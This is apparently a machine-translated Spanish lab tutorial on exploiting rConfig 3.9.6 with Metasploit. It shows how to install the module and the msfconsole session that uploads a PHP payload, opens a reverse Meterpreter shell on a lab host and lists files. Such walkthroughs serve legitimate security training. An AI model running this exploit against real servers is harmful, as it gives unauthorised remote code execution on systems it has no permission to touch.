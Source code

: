 Queremos buscar los directorios en la salida asociada con el marco de MetaSploit. En Pwnbox, los módulos de explotación de metasploit se mantienen en:

`/usr/share/metasploit-framework/modules/exploits`

Podemos copiar el código en un archivo y guardarlo en`/usr/share/metasploit-framework/modules/exploits/linux/http`Similar a donde almacenan el código en el repositorio de GitHub. También debemos mantener a MSF actualizado usando los comandos`apt update; apt install metasploit-framework`o su administrador de paquetes local. Una vez que encontramos el módulo de Exploit y descargarlo (podemos usar WGet) o copiarlo en el directorio adecuado de GitHub, podemos usarlo para obtener una sesión de shell en el objetivo. Si lo copiamos en un archivo en nuestro sistema local, asegúrese de que el archivo tenga`.rb`como la extensión. Todos los módulos en MSF están escritos en Ruby.

---

# **Usando el exploit rconfig y ganando un caparazón**

En MSFConsole, podemos cargar manualmente el exploit usando el comando:

### **Seleccione un exploit**

Infiltrando Unix/Linux

```
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce

```

Con este exploit seleccionado, podemos enumerar las opciones, ingresar la configuración adecuada específica para nuestro entorno de red y iniciar el exploit.

Use lo que ha aprendido en el módulo hasta ahora para completar las opciones asociadas con el exploit.

### **Ejecutar el exploit**

Infiltrando Unix/Linux

```
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.111:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg

```
